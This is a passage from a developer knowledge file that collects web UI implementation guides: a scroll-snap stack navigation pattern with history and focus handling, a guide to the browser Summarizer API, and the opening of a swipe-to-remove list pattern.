        <button class="back" aria-label="Back"></button>
        <!-- ... -->
      </header>
      <main><!-- ... --></main>
    </div>
  </div>
</div>
```

Notes:

- All views except the currently-visible one carry the `inert` attribute. This is applied/removed automatically by the `scrollsnapchange` handler in step 7 — do not set it from your view builders.
- Views the user swipes back past are removed from the DOM (also by step 7) so the stack never grows beyond `currentDepth + 1` children. They are rebuilt on demand from their cached URL paths if forward navigation returns to them.

### 2. Styles

#### The stack scroller

The stack is a horizontal grid where each child view is exactly the width of the container, with CSS scroll-snap enforcing one-view-per-snap. This is what gives the swipe-back gesture its native feel.

```css
.Stack {
  /* Use dvh so the height tracks the dynamic viewport on mobile, where
     the address bar can show/hide. svh would clip during the address bar
     animation; vh leaks under it. */
  height: 100dvh;

  /* Lay views out left-to-right, each one full-width, so horizontal
     scrolling moves between them one at a time. */
  display: grid;
  grid-auto-flow: column;
  grid-auto-columns: 100%;
  grid-template-rows: 100%;
  overflow-x: auto;

  /* `mandatory` guarantees the stack always settles fully on a view —
     never half-way between two. */
  scroll-snap-type: x mandatory;
  /* Prevent the swipe-back gesture from chaining into the browser's
     own history-back gesture (iOS, some Android) or the page's vertical
     scroll. The user is navigating the stack, not the page. */
  overscroll-behavior-x: none;
}

/* Hide the visual scrollbar — the snap and the parallax are the
   affordances; a horizontal scrollbar would look out of place. */
.Stack::-webkit-scrollbar {
  display: none;
}

/* MANDATORY: Opt into smooth programmatic scrolling via CSS, gated on
   prefers-reduced-motion. JS code calls scrollTo/scrollBy with
   behavior: 'auto' which defers to this rule, so the OS-level reduced-
   motion preference automatically downgrades to instant scrolling
   without any per-call JS branching. */
@media (prefers-reduced-motion: no-preference) {
  .Stack {
    scroll-behavior: smooth;
  }
}

.Stack-view {
  scroll-snap-align: start;
  /* `always` prevents the user from blowing through more than one view
     per gesture, so depth changes always happen one step at a time. */
  scroll-snap-stop: always;
}

/* MANDATORY: A separate inner element is required for the parallax
   transform below. Applying transforms directly to the snap target
   (.Stack-view) would feed back into the scroll container's snap
   geometry and the scroller would jump mid-gesture. */
.Stack-viewContent {
  width: 100%;
  height: 100%;
  background-color: #fff;
  /* Each view scrolls its own content vertically, independent of the
     stack's horizontal scroll. */
  overflow-y: auto;
}
```

#### The "stack" effect (parallax / dim / shadow)

A scroll-driven `view(inline)` animation tracks each view's progress through the stack scroller and applies a parallax + dim to the exiting view, plus a shadow on incoming drill-down views so they read as "cards" stacking over the previous view.

```css
/* MANDATORY: Wrap the animation block in @supports. Browsers without
   scroll-driven animations still parse the @keyframes and would
   apply the `to` state as a static style, leaving every view
   permanently transformed. The @supports gate confines the animation
   to browsers where it actually animates. */
@supports (animation-timeline: view()) {
  .Stack-viewContent {
    /* view(inline) tracks this element's progress through its nearest
       scrollable ancestor on the inline (x) axis. */
    animation: parallax linear both;
    animation-timeline: view(inline);
    /* Only animate the EXIT phase — when this view is being covered
       by a deeper one. During its own entry the view stays at rest,
       so the fresh content is fully bright and in position throughout. */
    animation-range: exit 0% exit 100%;
  }

  /* Drill-down views (everything except the root) also get a shadow on
     their left edge during the transition so they feel like cards
     stacking over the previous view. */
  .Stack-view:not(:first-child) .Stack-viewContent {
    animation: parallax linear both, shadow-fade linear both;
    animation-timeline: view(inline), view(inline);
    /* parallax: only exit (the view sliding back as a deeper one comes in).
       shadow-fade: entry through exit (visible the whole time the view is
       transitioning, not when it's at rest). */
    animation-range: exit 0% exit 100%, entry 0% exit 100%;
  }

  @keyframes parallax {
    /* translateX(75%) and brightness(0.8) are examples — adjust to taste. */
    to {
      transform: translateX(75%);
      filter: brightness(0.8);
    }
  }

  @keyframes shadow-fade {
    /* Shadow ramps in during entry, holds across the middle of the
       gesture, and ramps out during exit — so it's only visible while
       the view is mid-transition, not when at rest. */
    0%, 100% { box-shadow: 0 0 1.5rem #0000; }
    25%, 75% { box-shadow: 0 0 1.5rem #0004; }
  }
}
```

NOTE: This effect is popular in modern native stack applications and is a good starting point, but the exact visual effects can be customized to fit existing transition styles as needed.

### 3. Module state

The stack tracks four pieces of state in module scope:

```js
const stack = document.querySelector('.Stack');

// Reference to the root view DOM element. The Stack starts empty, so
// this is null until the root view is created — either at init (step 8,
// when the URL is '/') or later by synthesizeRootEntry() (when the user
// landed on a deep link and then navigates back). Held as a mutable
// reference because other code (the scrollsnapchange handler, init, etc.)
// uses identity comparisons against it.
let rootView = null;

// Tracks which element to restore focus to when the user swipes back
// into a previous view. Keyed by the view element itself so entries
// are garbage-collected automatically when the view is pruned.
const returnFocus = new WeakMap();

// Maps history depth -> {urlPath, view}. We MUST maintain this map
// ourselves because the History API does not expose state for entries
// other than the current one — so when a view is pruned on swipe-back,
// we still need to remember which URL it represented in case the user
// later forward-navigates back into it.
const entriesByDepth = new Map();

// Tracked manually because history.state on a popstate event tells us
// the destination depth but not where we came from. We need both to
// compute the direction (back vs forward) and the distance.
let currentDepth = 0;
```

Plus three application-specific helpers — the only places where your app's routing and view rendering plug in:

```js
// Resolve a URL path to the data your app needs to render the
// corresponding drill-down view, or return null for paths this section
// of the app does not handle (the root path '/', external links,
// unknown routes). resolveUrl() is for drill-down routes only — the
// root view is rendered separately by createRootView() below.
function resolveUrl(urlPath) {
  // Replace with your routing logic. For example, match `/view/:id`
  // and look the id up in your app state.
}

// Build the root (home) view of the stack. Application-specific content;
// preserve the .Stack-view / .Stack-viewContent wrapper structure (the
// inner element is required for the parallax — see step 2) and DO NOT
// render a back button — the root view has nothing behind it in the
// stack.
function createRootView() {
  const view = document.createElement('div');
  view.className = 'Stack-view';
  view.innerHTML = `
    <div class="Stack-viewContent">
      <!-- Root content. Include <a href> elements pointing at URL paths
           that resolveUrl() accepts, to enable drill-down from here. -->
    </div>
  `;
  return view;
}

// Build a drill-down view DOM element from the resolved route data.
// Customize the inner content freely, but DO preserve the .Stack-view
// / .Stack-viewContent wrapper structure and DO include a back button
// (the swipe gesture only works on touch).
function createDrillDownView(routeData) {
  const view = document.createElement('div');
  view.className = 'Stack-view';
  view.innerHTML = `
    <div class="Stack-viewContent">
      <header>
        <button class="back" aria-label="Back"></button>
        <!-- Title, breadcrumb, or other view chrome derived from
             routeData. -->
      </header>
      <main>
        <!-- View body, also from routeData. Include further <a href>
             elements pointing at URL paths that resolveUrl() also
             accepts, to enable additional drill-downs from this view. -->
      </main>
    </div>
  `;
  return view;
}

function getCurrentUrlPath() {
  return location.pathname;
}
```

### 4. Drill down

A drill-down does four things in this order: push a history entry, build the new view, append it, smooth-scroll to it. The `scrollsnapchange` handler (step 7) picks up from there once the snap settles.

```js
function drillDown(urlPath) {
  const routeData = resolveUrl(urlPath);
  if (!routeData) return;

  const newDepth = currentDepth + 1;
  // Push BEFORE creating the view so the URL is correct if anything
  // observing history (analytics, etc.) reads it during view creation.
  history.pushState({depth: newDepth}, '', urlPath);

  // pushState truncates forward entries in real browser history;
  // mirror that truncation in our depth map so we don't hold references
  // to views the user can no longer reach.
  for (const d of entriesByDepth.keys()) {
    if (d >= newDepth) entriesByDepth.delete(d);
  }
  currentDepth = newDepth;

  const newView = createDrillDownView(routeData);
  stack.appendChild(newView);
  entriesByDepth.set(newDepth, {urlPath, view: newView});

  // Scroll one viewport-width to the right. behavior: 'auto' defers to
  // the CSS `scroll-behavior` set in step 2, which is smooth unless
  // prefers-reduced-motion is set. The snap container locks onto the
  // new view; the scrollsnapchange listener (step 7) fires when the
  // snap settles.
  stack.scrollBy({left: stack.clientWidth, behavior: 'auto'});
}
```

### 5. Click and back-button handling

Intercept link clicks inside the stack and convert them to drill-downs. Preserve modifier-key behavior so cmd/middle-click still opens the link in a new tab.

```js
stack.addEventListener('click', (e) => {
  // Back button: defer to goBack() (defined below), which handles both
  // the normal in-app case and the deep-link case.
  if (e.target.closest('.back')) {
    goBack();
    return;
  }

  // Drill-down link.
  const link = e.target.closest('a');
  if (!link || !stack.contains(link)) return;
  // Let the browser handle modified clicks so users can open links
  // in new tabs / windows. e.button !== 0 filters out middle-clicks.
  if (e.metaKey || e.ctrlKey || e.shiftKey || e.button !== 0) return;

  const urlPath = new URL(link.href).pathname;
  const parentView = link.closest('.Stack-view');
  // If the URL isn't handled by this section of the app (resolveUrl
  // returns null), fall through so the browser navigates normally.
  if (!resolveUrl(urlPath) || !parentView) return;

  e.preventDefault();
  // Record which link the user activated so focus can be restored to
  // it when they swipe (or click) back into this view.
  returnFocus.set(parentView, link);
  drillDown(urlPath);
});

// Going back is usually just history.back(), but there's an important
// edge case: when the user lands directly on a deep-linked URL, there
// is no in-app history entry behind it. Calling history.back() in that
// situation would take them out of the app entirely. MANDATORY: detect
// this case and synthesize a root entry instead, so an in-app Back from
// a deep link lands on the root view and the platform Back from there
// returns the user to where they came from.
function goBack() {
  const atDeepLinkRoot = currentDepth === 0
    && entriesByDepth.get(0)?.view !== rootView;
  if (atDeepLinkRoot) {
    synthesizeRootEntry();
  } else {
    // history.back() fires popstate, which routes through
    // updateFromHistoryState (step 6) and scrolls the stack — the
    // same path a swipe-back converges on.
    history.back();
  }
}

function synthesizeRootEntry() {
  // Push a new history entry pointing at the root URL. This becomes the
  // entry the user "came from"; the original deep-linked entry is now
  // behind us, so platform Back from the root view will return there.
  const newDepth = currentDepth + 1;
  history.pushState({depth: newDepth}, '', '/');

  // Create the root view if it doesn't exist yet (we landed on a deep
  // link and never needed it before now), and insert it at the LEFT end
  // of the stack. Adjust scrollLeft by one viewport width so the user's
  // view doesn't visually jump — they should still be looking at the
  // deep-linked view until the scroll animation below runs.
  if (!rootView) {
    rootView = createRootView();
    stack.prepend(rootView);
    stack.scrollLeft += stack.clientWidth;
  }
  entriesByDepth.set(newDepth, {urlPath: '/', view: rootView});

  // Now scroll to the new entry (the root view). updateFromHistoryState
  // smooth-scrolls one step left, the parallax plays, and
  // scrollsnapchange fires when the root view settles.
  updateFromHistoryState(history.state);
}
```

### 6. Sync from history (popstate)

`popstate` fires when the user uses the browser/OS back or forward button, or when JavaScript calls `history.back()` / `.go()`. This handler is the only path that scrolls the stack in response to a history change.

```js
window.addEventListener('popstate', (event) => {
  updateFromHistoryState(event.state);
});

function updateFromHistoryState(state, behaviorOverride) {
  const newDepth = state?.depth ?? 0;
  const urlPath = getCurrentUrlPath();

  // Ensure entriesByDepth has an entry for the destination depth.
  // If the URL changed (e.g. forward-nav into a previously-pruned
  // view), clear the cached view reference so the loop below rebuilds.
  const entry = entriesByDepth.get(newDepth) ?? {view: null};
  if (entry.urlPath !== urlPath) {
    entry.urlPath = urlPath;
    entry.view = urlPath === '/' ? rootView : null;
  }
  entriesByDepth.set(newDepth, entry);

  // Rebuild any views between root and the destination that were
  // pruned earlier (when the user swiped back past them). Without
  // this, forward-navigating to a previously-pruned view would have
  // no element to scroll to.
  for (let d = 0; d <= newDepth; d++) {
    const e = entriesByDepth.get(d);
    if (!e || e.view) continue;
    const routeData = resolveUrl(e.urlPath);
    if (!routeData) continue;
    const rebuilt = createDrillDownView(routeData);
    stack.appendChild(rebuilt);
    e.view = rebuilt;
  }

  currentDepth = newDepth;

  const targetView = entriesByDepth.get(newDepth)?.view;
  if (!targetView) return;

  // Compare destination index against current scroll position so we
  // can bail if they're already aligned. This is reached when the
  // scrollsnapchange handler below calls history.go() to sync history
  // after a swipe-back that already completed visually — there's
  // nothing more to scroll.
  const toIdx = [...stack.children].indexOf(targetView);
  const fromIdx = Math.round(stack.scrollLeft / stack.clientWidth);
  if (fromIdx === toIdx) return;

  // Pick a scroll behavior:
  //   - multi-step jumps (e.g. history.go(-3)): 'instant' to skip
  //     intermediate snap points — otherwise smooth-scrolling would
  //     fire scrollsnapchange for each one and do N rounds of
  //     state-transition work for no reason.
  //   - rightward (forward) single-step: 'instant'. Browser-forward is
  //     rare on the web and is often spurious (e.g. iOS Safari treats
  //     edge swipes as forward navigation, even with overscroll-behavior
  //     set). An instant swap reads as "snap" rather than a misleading
  //     drilldown animation the user didn't ask for. The user-initiated
  //     drill-down path (drillDown, step 4) is unaffected — it calls
  //     scrollBy directly and never reaches this code.
  //   - leftward (back) single-step: 'auto' so the CSS `scroll-behavior`
  //     (smooth unless prefers-reduced-motion is set — see step 2)
  //     applies. Back is the common, expected case and benefits from
  //     the animation.
  // NOTE: "forward" here means spatial direction (toIdx > fromIdx),
  // NOT depth direction. synthesizeRootEntry (step 5) pushes a new
  // depth but scrolls LEFT to the root view, which correctly reads as
  // back-style (smooth).
  const forward = toIdx > fromIdx;
  const multiStep = Math.abs(toIdx - fromIdx) > 1;
  const behavior = behaviorOverride ?? (forward || multiStep ? 'instant' : 'auto');
  stack.scrollTo({left: toIdx * stack.clientWidth, behavior});
}
```

### 7. `scrollsnapchange`: the single source of truth

After every snap commit — whether triggered by a swipe, a click, or a programmatic scroll — the browser fires a `scrollsnapchange` event on the scroll container, with the newly snapped element exposed as `event.snapTargetInline` (for horizontal snapping). Putting all state transitions inside this one handler is what keeps the swipe path, the click path, and the `popstate` path coherent.

The handler is extracted into a standalone `onActiveViewChanged` function so the fallback (see "Fallback strategies" below) can reuse it without duplicating the logic.

```js
function onActiveViewChanged(currentView) {
  // Walk the stack in DOM order to update each view's role:
  //  - Views at or before currentView stay in the DOM but get
  //    `inert` (except currentView) so focus, pointer events, and
  //    AT navigation cannot leak into views hidden behind the
  //    parallax.
  //  - Views after currentView are unreachable (the user swiped
  //    back past them) so we drop them from the DOM to free memory.
  //    Their urlPath stays in entriesByDepth so a later forward
  //    navigation can rebuild the view from scratch.
  let seenCurrent = false;
  for (const view of [...stack.children]) {
    if (seenCurrent) {
      for (const e of entriesByDepth.values()) {
        if (e.view === view) e.view = null;
      }
      view.remove();
    } else {
      // MANDATORY: inert non-current views. Without this, tabbing
      // and screen-reader navigation can reach content hidden behind
      // the parallax — a severe accessibility failure that's
      // invisible to sighted users.
      view.toggleAttribute('inert', view !== currentView);
      if (view === currentView) seenCurrent = true;
    }
  }

  // If the visible view's depth doesn't match `currentDepth`, the
  // user got here by swiping (not clicking) — sync history so the
  // browser back/forward buttons stay coherent with what's on screen.
  let currentViewDepth;
  for (const [d, e] of entriesByDepth) {
    if (e.view === currentView) currentViewDepth = d;
  }
  if (currentViewDepth !== undefined && currentViewDepth !== currentDepth) {
    // history.go fires popstate, which re-enters updateFromHistoryState.
    // That call's fromIdx === toIdx check bails out without scrolling.
    history.go(currentViewDepth - currentDepth);
  }

  // Restore focus on the now-active view:
  //  - If we recorded which link the user activated to drill out
  //    of this view, return focus there so a swipe-back lands them
  //    exactly where they left off.
  //  - Otherwise (a freshly-pushed drill-down view), move focus to
  //    the back button so keyboard users have an obvious next action.
  //  - preventScroll is REQUIRED: without it, .focus() scrolls the
  //    snap container to bring the focused element into view, which
  //    fights the snap and can land the user mid-snap.
  const stored = returnFocus.get(currentView);
  if (stored) {
    stored.focus({preventScroll: true});
    returnFocus.delete(currentView);
  } else if (currentView !== rootView) {
    currentView.querySelector('.back')?.focus({preventScroll: true});
  }
}

stack.addEventListener('scrollsnapchange', (event) => {
  // snapTargetInline is the element that was just snapped to on the
  // inline (horizontal) axis. For this stack — where each view is one
  // horizontal snap stop — that's the new active view.
  onActiveViewChanged(event.snapTargetInline);
});
```

### 8. Initialization (including deep links)

When the page loads, the URL may already point at a deep view (a shared link, a bookmark, a refresh on a deep page). Build whichever initial view matches the URL — root or deep-linked, but never both — append it to the empty stack, seed the depth-0 history entry, and run an initial scroll pass with `behavior: 'instant'` so the parallax doesn't animate on first paint.

```js
const initialUrlPath = getCurrentUrlPath();
const initialRouteData = resolveUrl(initialUrlPath);

// Build the initial view: a drill-down view if the URL maps to one,
// otherwise the root view. Whichever it is, that's the only view in
// the stack right now — the other will be created lazily by
// synthesizeRootEntry (step 5) or drillDown (step 4) if the user
// navigates to it.
let initialView;
if (initialRouteData) {
  initialView = createDrillDownView(initialRouteData);
} else {
  rootView = createRootView();
  initialView = rootView;
}
stack.appendChild(initialView);

entriesByDepth.set(0, {urlPath: initialUrlPath, view: initialView});
// replaceState attaches a `depth` to the entry the user landed on, so
// any subsequent pushState / popstate has a base depth to count from.
history.replaceState({depth: 0}, '');

updateFromHistoryState(history.state, 'instant');
```

### Best practices

- **DO** use the `scrollsnapchange` event (with an `IntersectionObserver` fallback — see "Fallback strategies") as the source of truth for "the active view changed", not scroll-event coordinates. Snap commit is the only event that fires consistently across swipe, click, programmatic scroll, and `popstate` paths.
- **DO** apply transforms to a child of the snap target, never to the snap target itself. A transform on the snap target feeds back into the scroll container's snap geometry and the scroller will glitch mid-gesture.
- **DO** apply `inert` to every view except the currently visible one. Without this, focus and screen-reader navigation leak into views hidden behind the parallax — invisible to sighted users but a severe accessibility failure.
- **DO** push a history entry on every drill-down and handle `popstate` so the OS-level Back gesture and the browser back/forward buttons work. This is what makes the pattern feel like a native app.
- **DO** reconcile history from the active-view-changed handler when a swipe-back lands on a view whose depth doesn't match `currentDepth`. Without this, a subsequent OS Back returns the user somewhere unexpected because the browser's history cursor is out of sync with what's on screen.
- **DO** prune views the user swiped past from the DOM. A long drill-down session can otherwise accumulate dozens of detached subtrees. The cached URL path in `entriesByDepth` is enough to rebuild any view if forward navigation returns to it.
- **DO** call `.focus({preventScroll: true})` when restoring focus inside the stack. The default `preventScroll: false` makes the browser scroll the focus target into view, which fights the snap container and can land the user mid-snap.
- **DO** preserve cmd/ctrl/middle-click on internal links so URLs remain shareable and openable in a new tab.
- **DO** use `behavior: 'instant'` for multi-step history jumps AND for spatial-forward popstate transitions (`toIdx > fromIdx`). Multi-step jumps would otherwise fire `scrollsnapchange` at every intermediate snap and do N rounds of inert/focus/history work. Forward popstates are often spurious — iOS Safari treats edge swipes as browser forward even with `overscroll-behavior-x: none` set, and an instant swap is much less misleading than animating a "drilldown" the user didn't initiate. The user-initiated drill-down path (`drillDown`) is unaffected because it scrolls directly, not via `popstate`.
- **DO** respect `prefers-reduced-motion`: declare `scroll-behavior: smooth` only inside `@media (prefers-reduced-motion: no-preference)` and call `scrollTo` / `scrollBy` with `behavior: 'auto'` (not `'smooth'`) so the OS-level preference takes effect without per-call JS branching. Hard-coding `behavior: 'smooth'` bypasses the user's setting.
- **DO** render real `<a href>` elements as drill-down triggers, not `<button onclick>` or `<div>`. Real anchors get URL preview on hover, shareability, middle-click, screen-reader role, and SEO for free.
- **DO** include an explicit back button in every drill-down view. The swipe gesture only works on touch — keyboard, pointer, and desktop users need a visible affordance.
- **DO NOT** call `history.pushState` from the `popstate` handler — that pushes *new* entries while the user is trying to go back and breaks the browser back button.
- **DO NOT** drive the parallax with a `scroll` event listener when scroll-driven animations are available. The CSS path runs on the compositor; a JS scroll listener runs on the main thread and will visibly drop frames during the gesture.
- **DO NOT** mutate views you removed from the DOM after a swipe-back. Treat `entriesByDepth` as the canonical record: a pruned entry has `view: null` and is rebuilt on demand in `updateFromHistoryState`.

### Fallback strategies

Most of the features used in this guide are Baseline Widely available, and do not require any fallback. The only features not widely available that may require fallbacks are scroll-snap-events and scroll-driven-animations, both of which have robust fallback or progressive enhancement stories, and are safe to use for this use case:

#### Scroll snap events

Scroll snap events has limited availability.
Supported by: Chrome 129 (Sep 2024) and Edge 129 (Sep 2024).
Unsupported in: Firefox and Safari.

The `scrollsnapchange` event is the cleanest way to detect "the active view changed" — one listener on the stack, fired exactly once per snap commit. In browsers without it, the same effect can be polyfilled with an `IntersectionObserver` watching each view for full visibility inside the stack. The fallback dispatches into the same `onActiveViewChanged` function the primary path uses, so all the state-transition logic stays in one place.

```js
// MANDATORY when supporting browsers that haven't shipped scroll-snap-events
// yet. Check `HTMLElement.prototype` (not `window` or `document`) — the
// event handler IDL attribute is added to the prototype when the feature
// is supported, regardless of whether any element has the handler set.
if (!('onscrollsnapchange' in HTMLElement.prototype)) {
  const viewObserver = new IntersectionObserver((entries) => {
    for (const entry of entries) {
      // threshold:1 only fires for fully-visible entries, but the
      // observer also emits a "leaving" entry per view that drops below
      // ratio 1. Filter to the entering side, which is the snap-commit
      // moment we're trying to detect.
      if (entry.intersectionRatio === 1) {
        onActiveViewChanged(entry.target);
      }
    }
  }, {root: stack, threshold: 1});

  // Auto-observe every .Stack-view as it's added to the stack, and stop
  // observing as it's removed. Using a MutationObserver lets the primary
  // code (drillDown, updateFromHistoryState, synthesizeRootEntry, init)
  // stay free of fallback wiring.
  new MutationObserver((mutations) => {
    for (const m of mutations) {
      for (const node of m.addedNodes) {
        if (node.classList?.contains('Stack-view')) viewObserver.observe(node);
      }
      for (const node of m.removedNodes) {
        if (node.classList?.contains('Stack-view')) viewObserver.unobserve(node);
      }
    }
  }).observe(stack, {childList: true});

  // Catch up to any views already in the stack at the time this code
  // runs (typically the initial view appended in step 8).
  for (const view of stack.children) viewObserver.observe(view);
}
```

#### Scroll-driven animations

Scroll-driven animations has limited availability.
Supported by: Chrome 115 (Jul 2023), Edge 115 (Jul 2023), and Safari 26 (Sep 2025).
Unsupported in: Firefox.

The scroll-driven parallax / dim / shadow effect is a progressive enhancement on top of the navigation core. The CSS `@supports (animation-timeline: view())` gate (shown in step 2) confines the animation to supporting browsers; everywhere else the views simply cut between snap stops with no transition. The component is fully functional without the parallax — snap, history sync, focus management, and `inert` all still work.

If a parallax fallback is required for older baseline targets, attach a `scroll` listener to the stack and write a CSS custom property describing each view's progress through the scrollport, then drive `transform` and `filter` from that property:

```js
if (!CSS.supports('animation-timeline: view()')) {
  stack.addEventListener('scroll', () => {
    const viewWidth = stack.clientWidth;
    for (const view of stack.children) {
      // Progress: 0 when this view is centered, 1 when it has fully
      // exited to the left. Matches the @keyframes mapping above.
      const offsetLeft = view.offsetLeft - stack.scrollLeft;
      const progress = Math.min(1, Math.max(0, -offsetLeft / viewWidth));
      const content = view.querySelector('.Stack-viewContent');
      content.style.transform = `translateX(${progress * 75}%)`;
      content.style.filter = `brightness(${1 - progress * 0.2})`;
    }
  });
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, performance, vcs, api]

### 📘 KNOWLEDGE: NEXUS_SUMMARIZER.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

The **Summarizer API** allows web developers to offer local, AI-powered text distillation directly within the browser using **Gemini Nano in Chrome or Phi in Edge**. This API supports various formats, including key points, headlines, and TL;DRs, while operating entirely on-device to ensure user privacy.

---

## Getting Started

The Summarizer API is available starting in **Chrome and Edge 138**. It requires a one-time model download of Gemini Nano or Phi (respectively).


### Hardware & Software Requirements

- **OS**: Windows 10/11, macOS 13+, Linux, or ChromeOS (Chromebook Plus).
- **Storage**: 22GB free space for the profile volume.
- **RAM/CPU**: 16GB+ RAM and 4+ CPU cores.
- **VRAM**: 4GB+ (if using GPU).

### Model Download and Availability

Check if the model is ready, needs downloading, or is unavailable. 

**Mandatory Options Passing:** You must pass the identical configuration options object to both `Summarizer.availability(options)` and `Summarizer.create(options)`. Do NOT use the deprecated `window.ai.summarizer` API surface.

**Mandatory Progress Monitoring:** You MUST implement a monitor for model download progress by providing a `monitor(m)` callback to `Summarizer.create()` and adding a listener for the `downloadprogress` event.

**User Gesture Requirement:** When `availability` is `'downloadable'` or `'downloading'`, triggering the actual download via `Summarizer.create()` requires a user gesture (such as a user click). You must place the creation call inside an event listener rather than calling it unconditionally on page load to prevent `NotAllowedError`.

```javascript
const options = {
  type: 'key-points',
  format: 'plain-text',
  length: 'medium'
};

const availability = await Summarizer.availability(options);

if (availability === 'available') {
  const summarizer = await Summarizer.create(options);
  // Ready to use immediately
} else if (availability === 'downloadable') {
  // A user gesture is strictly required to start the download
  document.getElementById('start-download-btn').addEventListener('click', async () => {
    const summarizer = await Summarizer.create({
      ...options,
      monitor(m) {
        m.addEventListener('downloadprogress', (e) => {
          console.log(`Downloaded ${Math.round((e.loaded / e.total) * 100)}%`);
        });
      },
    });
  });
}
```

## API Functions & Configuration

When creating a summarizer via `Summarizer.create(options)`, you can customize
the output:

| Parameter    | Options                                    | Description                             |
| :----------- | :----------------------------------------- | :-------------------------------------- |
| `type`       | `key-points`, `tldr`, `teaser`, `headline` | Defines the summary strategy.           |
| `format`     | `markdown`, `plain-text`                   | Output syntax style.                    |
| `length`     | `short`, `medium`, `long`                  | Target length (e.g., 1 vs 5 sentences). |
| `preference` | `auto`, `speed`, `capability`              | Balances latency vs. quality.           |

### Example Configuration

```javascript
const options = {
  sharedContext: 'This is a scientific article',
  type: 'key-points',
  format: 'markdown',
  length: 'medium',
};

if (navigator.userActivation.isActive) {
  const summarizer = await Summarizer.create(options);
}
```

### Language Support

You can specify expected languages to ensure the browser can handle the specific
summary request.

```javascript
const summarizer = await Summarizer.create({
  type: 'key-points',
  expectedInputLanguages: ['en', 'ja'],
  outputLanguage: 'es',
});
```

## Summarization Methods

### 1. Batch Summarization

Processes the entire text at once and returns the result.

```javascript
const longText = document.querySelector('article').innerText;
const summary = await summarizer.summarize(longText, {
  context: 'This article is intended for a tech-savvy audience.',
});
console.log(summary);
```

### 2. Stream Summarization

Returns results in real-time as the model generates them, providing a more
responsive UI.

```javascript
const stream = summarizer.summarizeStreaming(longText);
for await (const chunk of stream) {
  console.log(chunk);
}
```

## Security and Permissions

- **Data Privacy**: No data is sent to Google; processing happens on the local
  device.
- **Cross-Origin**: Access can be granted to iframes using the Permission
  Policy.
  ```html
  <iframe src="https://example.com/" allow="summarizer"></iframe>
  ```
- **Web Workers**: Currently not supported.

## Fallback Strategy

Summarizer has limited availability.
Supported by: Chrome 138 (Jun 2025).
Unsupported in: Edge, Firefox, and Safari.

Before initializing or querying availability, check if the browser supports the `Summarizer` API:

```javascript
if ('Summarizer' in self) {
  // The Summarizer API is supported.
} else {
  // Execute fallback strategy
}
```

If the `Summarizer` API is unsupported or availability checks return `'unavailable'`, you must gracefully fall back.

Recommended options:
1. **Remote API Fallback**: Direct the distillation request to a server endpoint or remote API (such as the Vertex AI Gemini API) so that users still get summaries.
2. **Graceful Degradation**: Visually disable the summarization controls in the UI, or hide the button while displaying a friendly message (e.g., `"Local summarization is currently unsupported in this browser"`). Do not allow interaction to trigger generic unhandled runtime exceptions.
3. **Polyfill Fallback**: You can use community-maintained polyfills like `built-in-ai-task-apis-polyfills` or `prompt-api-polyfill` to emulate the API surface using remote services with models in the cloud or on-device inference with local models.

> **Privacy and Cost Implications:** These polyfills possibly proxy requests to remote servers (such as Gemini API over the cloud). This completely nullifies the on-device privacy guarantees of the native Built-in AI APIs and will incur server-side API usage costs.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, api]

### 📘 KNOWLEDGE: NEXUS_SWIPE-TO-REMOVE.MD

# Swipe to remove
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Swipe-to-remove patterns are common in mobile applications but can be challenging to implement cleanly on the web. By using CSS Scroll Snap, you can create a smooth, native-feeling swipe interaction that hooks directly into the browser's scrolling engine. This ensures high performance and physics-based momentum without needing a complex JavaScript gesture library.

The same pattern works for any single-action swipe (remove, archive, mark as read, snooze). The action visuals change; the mechanics do not.

## How to implement

The component has two layers: a **list** (the `<ul>`) and the **items** inside it. Each item is structured as an outer `<li>`, an inner scroll **track** (the scroll container with the snap points), and a **content** element (the visible row). The action's revealed UI (trash icon, archive label, etc.) lives on either side of the content. The list owns shared wiring (lazy item setup, picking up newly added items); each item owns its own swipe detection.

### Step 1: Mark up the list with track and content

```html
<ul class="SwipeableList">
  <li id="list-item-1" class="SwipeableList-item">
    <div class="SwipeableList-track">
      <div class="SwipeableList-content">Item One</div>
    </div>
  </li>
  <li id="list-item-2" class="SwipeableList-item">
    <div class="SwipeableList-track">
      <div class="SwipeableList-content">Item Two</div>
    </div>
  </li>
  <!-- ...more items... -->
</ul>
```

### Step 2: Configure the track as a horizontal snap container with three snap points

The track has three full-width columns: a left spacer (`::before`), the content, and a right spacer (`::after`). Snapping to a spacer means the content is fully off-screen, which is the rest position after a committed swipe.

The track configuration is gated behind an `.is-initialized` class on the list item. Before JS upgrades the row, the item just renders as plain content with no horizontal scroller. The class is added in Step 4 once the JavaScript that detects swipes has been wired up. This ensures the user cannot swipe before the functionality is ready.

```css
.SwipeableList {
  list-style: none;
}

.SwipeableList-item {
  /* Establishes a containing block for the absolutely positioned action
     icons (Step 3) and clips overflow during the row's removal
     animation (Step 4). */
  contain: content;
}

/* The track only becomes a scroll snap container after JS upgrades
   the row by adding `.is-initialized` (see Step 4). */
.SwipeableList-item.is-initialized .SwipeableList-track {
  /* Three full-width columns: left spacer | content | right spacer.
     Width is 100% of the track, so each column fills the viewport row. */
  display: grid;
  grid-template-columns: 100% 100% 100%;

  /* Horizontal scroll only; vertical overflow is clipped so the
     reveal stays inside the row. */
  overflow: scroll clip;

  /* Prevent the swipe from chaining into the page scroll or browser
     back-gesture on iOS/Android. */
  overscroll-behavior-x: none;

  /* Hide the scrollbar; the gesture is the affordance. */
  scrollbar-width: none;

  /* `mandatory` ensures the track always rests on a snap point
     (spacer or content), never partially scrolled. */
  scroll-snap-type: x mandatory;
}

/* Spacers act as the left and right snap targets, AND carry the action's
   reveal color. As the user swipes, the colored spacer slides into view,
   which is what the user sees behind the content. */
.SwipeableList-item.is-initialized .SwipeableList-track::before,
.SwipeableList-item.is-initialized .SwipeableList-track::after {
  content: '';

  /* `scroll-snap-align` is required to make this a valid snap target,
     but the specific value (`start`/`center`/`end`) doesn't matter here
     because each snap point spans the full width of the scroll
     container, so all alignments resolve to the same resting position. */
  scroll-snap-align: start;

  /* `hsl(0 65% 50%)` is an example value; pick whatever fits your
     design (red here signals "delete"; use a different color for
     archive, mark-as-read, etc.). */
  background-color: hsl(0 65% 50%);
}

.SwipeableList-content {
  /* The content sits above the action icons (Step 3), so it covers
     them until the user swipes. */
  position: relative;
  z-index: 2;

  /* Required to make the content a valid snap target (its resting
     position). As with the spacers above, the specific value doesn't
     matter because the snap points are full-width. */
  scroll-snap-align: start;

  /* The content must paint over the revealed spacer color. */
